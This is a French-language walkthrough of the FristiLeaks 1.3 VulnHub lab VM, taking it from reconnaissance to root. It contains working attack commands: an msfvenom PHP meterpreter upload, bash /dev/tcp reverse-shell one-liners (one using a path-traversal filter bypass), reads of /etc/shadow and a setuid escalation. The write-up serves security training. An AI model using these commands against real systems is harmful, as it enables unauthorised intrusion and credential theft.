



# FristiLeaks: 1.3

[FristiLeaks: 1.3](https://www.vulnhub.com/entry/fristileaks-13,133/) est une machine virtuelle vulnérable, conçue par le chercheur en sécurité [Ar0xA](https://twitter.com/Ar0xA) et publiée sur VulnHub au mois de décembre 2015. L'objectif, comme toujours, est de trouver et d'exploiter des vulnérabilités sur la VM fournie, afin d'obtenir les privilèges d'administration (root) et de récupérer un flag, preuve de l'intrusion et synonyme de validation du challenge. C'est parti pour ce _walkthrough_ ! Attention, spoilers...

## Recherche d'informations

L'adresse IP de la VM FristiLeaks nous est gracieusement fournie à l'écran d'ouverture de session : 192.168.56.102.

```console
Fristileaks 1.3 vulnerable VM by Ar0xA.
Goal: get root (uid 0) and read the flag file

Thanks to dqi and barrebas for testing!

IP adddress: 192.168.56.102
localhost login: _
```

Un scan [__nmap__](https://nmap.org/book/man.html) va nous permettre à la fois d'identifier les services installés sur le serveur, et d'obtenir des informations sur le système d'exploitation.

```console
root@blinils:~# nmap -sT -sV -A 192.168.56.102

Host is up (0.00074s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 3 disallowed entries 
|_/cola /sisi /beer
|_http-server-header: Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 08:00:27:A5:A6:76 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10, Linux 2.6.32 - 3.13
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.74 ms 192.168.56.102
```

Le site accessible sur le port 80 est une simple page HTML avec un message bleu sur fond rose.



_Nota Bene : le saviez-vous ? _Keep Calm and Carry On_ (en français, « restez calme et continuez ») était une affiche produite par le gouvernement britannique en 1939 au début de la Seconde Guerre mondiale, destinée à relever le moral de l'opinion publique britannique en cas d'invasion. 
Source : Article [_Keep Calm and Carry On_](https://fr.wikipedia.org/wiki/Keep_Calm_and_Carry_On) de [Wikipédia en français](https://fr.wikipedia.org/)
([auteurs](https://fr.wikipedia.org/w/index.php?title=Keep_Calm_and_Carry_On&action=history)). Quant au terme [Fristi](https://nl.wikipedia.org/wiki/Fristi), il s'agit d'une marque de boisson lactée produite aux Pays-Bas._

L'outil __nmap__ a détecté la présence du fichier [```robots.txt```](https://www.commentcamarche.net/contents/1268-robots-txt), contenant trois entrées : ```/beer```, ```/cola``` et ```/sisi```. Malheureusement, toutes renvoient [la même image](images/3037440.jpg) : un meme d'Obi-Wan Kenobi nous incitant à chercher ailleurs.

```console
root@blinils:~# curl http://192.168.56.102/robots.txt
User-agent: *
Disallow: /cola
Disallow: /sisi
Disallow: /beer

root@blinils:~# curl http://192.168.56.102/cola/

root@blinils:~# curl http://192.168.56.102/sisi/

root@blinils:~# curl http://192.168.56.102/beer/

```

Peut-être la page ```/fristi/``` ? Bingo.

## _Hidden in plain sight_



```console
root@blinils:~# curl http://192.168.56.102/fristi/

--snip--

<!-- 
TODO:
We need to clean this up for production.
I left some junk in here to make testing easier.

- by eezeepz

--snip--

<center><h1> Welcome to #fristileaks admin portal</h1></center>
<center></center><br/>
<!-- 
iVBORw0KGgoAAAANSUhEUgAAAW0AAABLCAIAAAA04UHqAAAAAXNSR0IArs4c6QAAAARnQU1BAACx
jwv8YQUAAAAJcEhZcwAADsMAAA7DAcdvqGQAAARSSURBVHhe7dlRdtsgEIVhr8sL8nqymmwmi0kl
S0iAQGY0Nb01//dWSQyTgdxz2t5+AcCHHAHgRY4A8CJHAHiRIwC8yBEAXuQIAC9yBIAXOQLAixw
B4EWOAPAiRwB4kSMAvMgRAF7kCAAvcgSAFzkCwIscAeBFjgDwIkcAeJEjALzIEQBe5AgAL5kc+f
m63yaP7/XP/5RUM2jx7iMz1ZdqpguZHPl+zJO53b9+1gd/0TL2Wull5+RMpJq5tMTkE1paHlVXJJ
Zv7/d5i6qse0t9rWa6UMsR1+WrORl72DbdWKqZS0tMPqGl8LRhzyWjWkTFDPXFmulC7e81bxnNOvb
DpYzOMN1WqplLS0w+oaXwomXXtfhL8e6W+lrNdDFujoQNJ9XbKtHMpSUmn9BSeGf51bUcr6W+VjNd
jJQjcelwepPCjlLNXFpi8gktXfnVtYSd6UpINdPFCDlyKB3dyPLpSTVzZYnJR7R0WHEiFGv5NrDU
12qmC/1/Zz2ZWXi1abli0aLqjZdq5sqSxUgtWY7syq+u6UpINdOFeI5ENygbTfj+qDbc+QpG9c5
uvFQzV5aM15LlyMrfnrPU12qmC+Ucqd+g6E1JNsX16/i/6BtvvEQzF5YM2JLhyMLz4sNNtp/pSkg1
04VajmwziEdZvmSz9E0YbzbI/FSycgVSzZiXDNmS4cjCni+kLRnqizXThUqOhEkso2k5pGy00aLq
i1n+skSqGfOSIVsKC5Zv4+XH36vQzbl0V0t9rWb6EMyRaLLp+Bbhy31k8SBbjqpUNSHVjHXJmC2Fg
tOH0drysrz404sdLPW1mulDLUdSpdEsk5vf5Gtqg1xnfX88tu/PZy7VjHXJmC21H9lWvBBfdZb6Ws
30oZ0jk3y+pQ9fnEG4lNOco9UnY5dqxrhk0JZKezwdNwqfnv6AOUN9sWb6UMyR5zT2B+lwDh++Fl
3K/U+z2uFJNWNcMmhLzUe2v6n/dAWG+mLN9KGWI9EcKsMJl6o6+ecH8dv0Uu4PnkqDl2rGuiS8HK
ul9iMrFG9gqa/VTB8qORLuSTqF7fYU7tgsn/4+zfhV6aiiIsczlGrGvGTIlsLLhiPbnh6KnLDU12q
mD+0cKQ8nunpVcZ21Rj7erEz0WqoZ+5IRW1oXNB3Z/vBMWulSfYlm+hDLkcIAtuHEUzu/l9l867X34
rPtA6lmLi0ZrqX6gu37aIukRkVaylRfqpk+9HNkH85hNocTKC4P31Vebhd8fy/VzOTCkqeBWlrrFhe
EPdMjO3SSys7XVF+qmT5UcmT9+Ss//fyyOLU3kWoGLd59ZKb6Us10IZMjAP5b5AgAL3IEgBc5AsCLH
AHgRY4A8CJHAHiRIwC8yBEAXuQIAC9yBIAXOQLAixwB4EWOAPAiRwB4kSMAvMgRAF7kCAAvcgSAFzk
CwIscAeBFjgDwIkcAeJEjALzIEQBe5AgAL3IEgBc5AsCLHAHgRY4A8Pn9/QNa7zik1qtycQAAAABJR
U5ErkJggg==
-->

--snip--
```

Le message laissé par eezeepz est on ne peut plus clair : il s'agissait au départ d'un environnement de tests, mais qui n'a pas été modifié/nettoyé lors du passage en production. On y trouve ainsi deux images encodées en base64, dont une qui n'est pas affichée car placée en commentaires. La première représente 
[Nelson Muntz](https://fr.wikipedia.org/wiki/Nelson_Muntz), un personnage de la série télévisée Les Simpson. La seconde, cachée, est une chaîne de caractères : ```keKkeKKeKKeKkEkkEk```. Les _credentials_ ```eezeepz:keKkeKKeKKeKkEkkEk``` permettent de passer au niveau suivant.

## Exploitation du formulaire d'upload et mise en place d'un reverse shell



```console
root@blinils:~# curl http://192.168.56.102/fristi/login_success.php

<html>
<body>
Login successful<p>
<a href="upload.php">upload file</a>
</body>
</html>
```

```console
root@blinils:~# curl http://192.168.56.102/fristi/upload.php

<html>
<body>
<form action="do_upload.php" method="post" enctype="multipart/form-data">
    Select image to upload:<br>
    <input type ="file" name="fileToUpload" id="fileToUpload">
    <input type="submit" value="Upload Image" name="submit">
</form>
</body>
</html>
```

Le portail d'administration de FristiLeaks n'est consisté que d'un simple formulaire d'upload de fichiers images. Or cette fonctionnalité n'est pas filtrée, car après plusieurs tests, on constate que seule l'extension du fichier est vérifiée. Il est ainsi possible de transférer [un script malveillant](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) afin d'interagir avec le serveur, d'y exécuter des commandes arbitraires et d'en prendre le contrôle.

Le principe est le suivant : un [_reverse shell_](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) en PHP va être créé et déposé sur le serveur. Ce bout de code va, dans un premier temps, créer une connexion sur le port 12345 entre le serveur FristiLeaks (192.168.56.102) et notre propre machine (192.168.56.101), avant d'envoyer un [meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) à travers la connexion créée, qui sera exécuté sur le serveur distant.

```console
root@blinils:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=12345 -o shell.php.png
No platform was selected, choosing Msf::Module::Platform::PHP from the payload
No Arch selected, selecting Arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1116 bytes
Saved as: shell.php.png
```


Un listener est alors mis en place sur notre machine, afin d'écouter toute connexion entrante sur le port 12345.

```console
root@blinils:~# service postgresql start
root@blinils:~# msfdb start
root@blinils:~# msfconsole

--snip--
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.56.101
LHOST => 192.168.56.101
msf exploit(multi/handler) > set LPORT 12345
LPORT => 12345

msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.

[*] Started reverse TCP handler on 192.168.56.101:12345
```

Le fait d'appeler le fichier situé dans le répertoire ```/uploads``` amorce la connexion.

```console
msf exploit(multi/handler) >
[*] Sending stage (37543 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.101:12345 -> 192.168.56.102:48731) at 2018-01-02 03:04:05 +0100

msf exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                   Information                          Connection
  --  ----  ----                   -----------                          ----------
  1         meterpreter php/linux  apache (48) @ localhost.localdomain  192.168.56.101:12345 -> 192.168.56.102:48731 (192.168.56.102)
```

Il ne nous reste plus qu'à créer un [pseudo-terminal Bash](https://netsec.ws/?p=337) avec le module PTY.

```console
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer    : localhost.localdomain
OS          : Linux localhost.localdomain 2.6.32-573.8.1.el6.x86_64 #1 SMP Tue Nov 10 18:01:38 UTC 2015 x86_64
Meterpreter : php/linux
meterpreter > shell
Process 2047 created.
Channel 0 created.

id
uid=48(apache) gid=48(apache) groups=48(apache)

python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.1$ 
```

Partons à la recherche de fichiers intéressants... le fichier ```checklogin.php``` contient par exemple un mot de passe pour se connecter à la base de données MySQL.

```console
bash-4.1$ pwd
pwd
/var/www/html/fristi/uploads

bash-4.1$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
--snip--
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
vboxadd:x:498:1::/var/run/vboxadd:/bin/false
eezeepz:x:500:500::/home/eezeepz:/bin/bash
admin:x:501:501::/home/admin:/bin/bash
fristigod:x:502:502::/var/fristigod:/bin/bash
fristi:x:503:100::/var/www:/sbin/nologin

bash-4.1$ cat /var/www/html/fristi/checklogin.php
cat /var/www/html/fristi/checklogin.php

--snip--
$host="localhost"; // Host name
$username="eezeepz"; // Mysql username
$password="4ll3maal12#"; // Mysql password
$db_name="hackmenow"; // Database name
$tbl_name="members"; // Table name
--snip--
```

Malheureusement, les mots de passe trouvés jusqu'à présent ne permettent pas d'élever nos privilèges.

```console
bash-4.1$ su - eezeepz
su - eezeepz
Password: 4ll3maal12#
su: incorrect password

bash-4.1$ su - eezeepz
su - eezeepz
Password: keKkeKKeKKeKkEkkEk
su: incorrect password
```

## Élévation de privilèges (admin)

On trouve dans le répertoire d'eezeepz un petit mot signé Jerry (admin).

```console
bash-4.1$ cat /home/eezeepznotes.txt
cat /home/eezeepznotes.txt
Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry
```

Dommage, il ne semble pas possible cette fois-ci de mettre en place un _reverse shell_.

```console
bash-4.1$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)

bash-4.1$ echo "bash -i >& /dev/tcp/192.168.56.101/23456 0>&1" > /tmp/runthis
echo "bash -i >& /dev/tcp/192.168.56.101/23456 0>&1" > /tmp/runthis
```

```console
root@blinils:~# nc -lvp 23456
listening on [any] 23456 ...

--waiting but nothing--
```

L'une des solutions consiste à rendre accessible le contenu du répertoire ```/home/admin``` grâce à chmod.

```console
bash-4.1$ echo "/home/admin/chmod -R 777 /home/admin" > /tmp/runthis
echo "/home/admin/chmod -R 777 /home/admin" > /tmp/runthis

bash-4.1$ ls /home/admin
ls /home/admin
ls: cannot open directory /home/admin: Permission denied

--waiting--

bash-4.1$ ls /home/admin
ls /home/admin
cat    cronjob.py	cryptpass.py  echo   grep  whoisyourgodnow.txt
chmod  cryptedpass.txt	df	      egrep  ps
```

```console
bash-4.1$ ls -al /home/admin
ls -al
total 652
drwxrwxrwx. 2 admin     admin       4096 Nov 19  2015 .
drwxr-xr-x. 5 root      root        4096 Nov 19  2015 ..
-rwxrwxrwx. 1 admin     admin         18 Sep 22  2015 .bash_logout
-rwxrwxrwx. 1 admin     admin        176 Sep 22  2015 .bash_profile
-rwxrwxrwx. 1 admin     admin        124 Sep 22  2015 .bashrc
-rwxrwxrwx  1 admin     admin      45224 Nov 18  2015 cat
-rwxrwxrwx  1 admin     admin      48712 Nov 18  2015 chmod
-rwxrwxrwx  1 admin     admin        737 Nov 18  2015 cronjob.py
-rwxrwxrwx  1 admin     admin         21 Nov 18  2015 cryptedpass.txt
-rwxrwxrwx  1 admin     admin        258 Nov 18  2015 cryptpass.py
-rwxrwxrwx  1 admin     admin      90544 Nov 18  2015 df
-rwxrwxrwx  1 admin     admin      24136 Nov 18  2015 echo
-rwxrwxrwx  1 admin     admin     163600 Nov 18  2015 egrep
-rwxrwxrwx  1 admin     admin     163600 Nov 18  2015 grep
-rwxrwxrwx  1 admin     admin      85304 Nov 18  2015 ps
-rw-r--r--  1 fristigod fristigod     25 Nov 19  2015 whoisyourgodnow.txt
```

Le fichier ```cronjob.py``` nous apporte quelques éclaircissements quant à l'échec de notre _reverse shell_.

```console
bash-4.1$ tail -n1 cronjob.py
tail -n1 cronjob.py
            writefile("command did not start with /home/admin or /usr/bin")
```

La commande placée dans le fichier ```/tmp/runthis``` doit démarrer avec soit ```/home/admin``` soit ```/usr/bin```. Soit.

```console
bash-4.1$ echo "/usr/bin/../../bin/bash -i >& /dev/tcp/192.168.56.101/11111 0>&1" > /tmp/runthis
" > /tmp/runthis./../bin/bash -i >& /dev/tcp/192.168.56.101/11111 0>&1 

bash-4.1$ cat /tmp/runthis
cat /tmp/runthis
/usr/bin/../../bin/bash -i >& /dev/tcp/192.168.56.101/11111 0>&1
```

Et de l'autre côté... cela fonctionne bien mieux !

```console
root@blinils:~# nc -lvp 11111
listening on [any] 11111 ...
192.168.56.102: inverse host lookup failed: Unknown host
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 38539
bash: no job control in this shell
[admin@localhost ~]$ id
id
uid=501(admin) gid=501(admin) groups=501(admin)

[admin@localhost ~]$ ls -al
ls -al
total 656
drwxrwxrwx. 2 admin     admin       4096 Feb 15 17:08 .
drwxr-xr-x. 5 root      root        4096 Nov 19  2015 ..
-rwxrwxrwx  1 admin     admin          8 Feb 18 09:15 .bash_history
-rwxrwxrwx. 1 admin     admin         18 Sep 22  2015 .bash_logout
-rwxrwxrwx. 1 admin     admin        176 Sep 22  2015 .bash_profile
-rwxrwxrwx. 1 admin     admin        124 Sep 22  2015 .bashrc
-rwxrwxrwx  1 admin     admin      45224 Nov 18  2015 cat
-rwxrwxrwx  1 admin     admin      48712 Nov 18  2015 chmod
-rwxrwxrwx  1 admin     admin        737 Nov 18  2015 cronjob.py
-rwxrwxrwx  1 admin     admin         21 Nov 18  2015 cryptedpass.txt
-rwxrwxrwx  1 admin     admin        258 Nov 18  2015 cryptpass.py
-rwxrwxrwx  1 admin     admin      90544 Nov 18  2015 df
-rwxrwxrwx  1 admin     admin      24136 Nov 18  2015 echo
-rwxrwxrwx  1 admin     admin     163600 Nov 18  2015 egrep
-rwxrwxrwx  1 admin     admin     163600 Nov 18  2015 grep
-rwxrwxrwx  1 admin     admin      85304 Nov 18  2015 ps
-rw-r--r--  1 fristigod fristigod     25 Nov 19  2015 whoisyourgodnow.txt
```

## Élévation de privilèges (fristigod)

Deux fichiers sont particulièrement intéressants : ```cryptedpass.txt``` (admin) et ```whoisyourgodnow.txt``` (fristigod).

```console
[admin@localhost ~]$ cat cryptedpass.txt && cat whoisyourgodnow.txt
cat cryptedpass.txt && cat whoisyourgodnow.txt
mVGZ3O3omkJLmy2pcuTq
=RFn0AKnlMHMPIzpyuTI0ITG
```

Il doit s'agir de deux mots de passe probablement encodés à l'aide du script Python ```cryptpass.py``` qui ressemble à ceci.

```console
[admin@localhost ~]$ cat cryptpass.py
cat cryptpass.py
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
```

Le mot de passe en clair fourni en script est tout d'abord converti en [base64](https://fr.wikipedia.org/wiki/Base64), avant d'être chiffré 
avec une variante du [code de César](https://fr.wikipedia.org/wiki/Chiffrement_par_d%C3%A9calage), le [ROT13](https://fr.wikipedia.org/wiki/ROT13). 
Il suffit de suivre le chemin inverse pour retrouver le mot de passe en clair à partir du chiffré.

```console
root@blinils:~# python
>>> import base64,codecs,sys
>>> encryptedPass = "=RFn0AKnlMHMPIzpyuTI0ITG"

>>> encryptedPass[::-1]
'GTI0ITuypzIPMHMlnKA0nFR='

>>> codecs.encode(encryptedPass[::-1], 'rot13')
'TGV0VGhlcmVCZUZyaXN0aSE='

>>> base64.b64decode(codecs.encode(encryptedPass[::-1], 'rot13'))
'LetThereBeFristi!'

>>> encryptedPass = "mVGZ3O3omkJLmy2pcuTq"
>>> base64.b64decode(codecs.encode(encryptedPass[::-1], 'rot13'))
'thisisalsopw123'
```

Nous voici donc en possession de deux nouveaux _credentials_ : ```admin:thisisalsopw123``` et ```fristigod:LetThereBeFristi```.

```console
bash-4.1$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)

bash-4.1$ su - admin
su - admin
Password: thisisalsopw123

[admin@localhost ~]$ su - fristigod
su - fristigod
Password: LetThereBeFristi!

-bash-4.1$ id
id
uid=502(fristigod) gid=502(fristigod) groups=502(fristigod)
```

## Élévation de privilèges (root)

Partons à la recherche de fichiers intéressants... le répertoire ```.secret_admin_stuff``` semble être une bonne piste.

```console
-bash-4.1$ ls -al
ls -al
total 16
drwxr-x---   3 fristigod fristigod 4096 Nov 25  2015 .
drwxr-xr-x. 19 root      root      4096 Nov 19  2015 ..
-rw-------   1 fristigod fristigod  864 Nov 25  2015 .bash_history
drwxrwxr-x.  2 fristigod fristigod 4096 Nov 25  2015 .secret_admin_stuff

-bash-4.1$ cd .secret_admin_stuff
cd .secret_admin_stuff

-bash-4.1$ ls -al
ls -al
total 16
drwxrwxr-x. 2 fristigod fristigod 4096 Nov 25  2015 .
drwxr-x---  3 fristigod fristigod 4096 Nov 25  2015 ..
-rwsr-sr-x  1 root      root      7529 Nov 25  2015 doCom

-bash-4.1$ file doCom
file doCom
doCom: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV),
dynamically linked (uses shared libs), for GNU/Linux 2.6.18, not stripped
```

_Nota Bene : quand un fichier exécutable est propriété de l'utilisateur root, et est rendu setuid, tout processus exécutant ce fichier peut effectuer ses tâches avec les permissions associées à root, ce qui constitue un risque de sécurité pour la machine, s'il existe une faille dans ce programme. En effet, un hacker pourrait utiliser cette faille pour effectuer des opérations réservées à root, par exemple en se créant un compte d'accès illimité en temps et en pouvoirs. Source : Article [Setuid](https://fr.wikipedia.org/wiki/Setuid) de
[Wikipédia en français](https://fr.wikipedia.org/) ([auteurs](https://fr.wikipedia.org/w/index.php?title=Setuid&action=history))._

L'historique des commandes Unix de l'utilisateur ```fristigod``` pourra sans doute nous aiguiller quant à l'utilisation de ```doCom```.

```console
-bash-4.1$ cat .bash_history
--snip--
./doCom 
sudo -u fristi ./doCom ls /
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom ls /
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom ls /
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
sudo /var/fristigod/.secret_admin_stuff/doCom
--snip--
```

Il est ainsi possible d'effectuer des opérations réservées à root, telles que la lecture du fichier ```/etc/shadow```.

```console
-bash-4.1$ sudo -u fristi ./doCom "head -n1 /etc/shadow"
sudo -u fristi ./doCom "head -n1 /etc/shadow"
[sudo] password for fristigod: LetThereBeFristi!

root:$6$qAoeosiW$fsOy8H/VKux.9K0T3Ww2D3FPNlO5LAaFytx/6t69Q7LPDSS/nNiP4xzq0Qab.Iz3uy5fYdH3Aw/K5v3ZMhRRH0:16756:0:99999:7:::
```

Nous y sommes presque !

```console
-bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom "sudo su"
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom "sudo su"
[root@localhost .secret_admin_stuff]# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Il ne reste plus qu'à lire le mot final signé [Ar0xA](https://twitter.com/Ar0xA), et à le remercier pour cette VM FristiLeaks !

```console
[root@localhost ~]# cat fristileaks_secrets.txt
cat fristileaks_secrets.txt
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]

I wonder if you beat it in the maximum 4 hours it's supposed to take!

Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)


Flag: Y0u_kn0w_y0u_l0ve_fr1st1
```

## Bonus : Consultation de la base de données MySQL

```console
[root@localhost ~]# mysql -u eezeepz -p
mysql -u eezeepz -p
Enter password: 4ll3maal12#

--snip--

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| hackmenow          |
+--------------------+
2 rows in set (0.01 sec)

mysql> use hackmenow;
use hackmenow;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+---------------------+
| Tables_in_hackmenow |
+---------------------+
| members             |
+---------------------+
1 row in set (0.00 sec)

mysql> select * from members;
select * from members;
+----+----------+--------------------+
| id | username | password           |
+----+----------+--------------------+
|  1 | eezeepz  | keKkeKKeKKeKkEkkEk |
+----+----------+--------------------+
1 row in set (0.00 sec)
```
